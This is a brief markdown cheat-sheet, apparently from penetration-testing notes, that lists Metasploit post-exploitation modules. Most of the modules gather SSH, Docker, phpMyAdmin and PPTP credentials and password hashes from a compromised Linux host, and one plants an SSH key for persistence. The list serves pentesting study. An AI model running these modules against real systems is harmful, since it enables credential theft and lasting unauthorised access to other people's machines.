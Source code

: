 # Metasploit modules

```
use post/multi/gather/ssh_creds
```
```
use post/multi/gather/docker_creds
```
```
use post/linux/gather/hashdump
```
```
use post/linux/gather/ecryptfs_creds
```
```
use post/linux/gather/enum_psk
```
```
use post/linux/gather/enum_xchat
```
```
use post/linux/gather/phpmyadmin_credsteal
```
```
use post/linux/gather/pptpd_chap_secrets
```
```
use post/linux/manage/sshkey_persistence
```
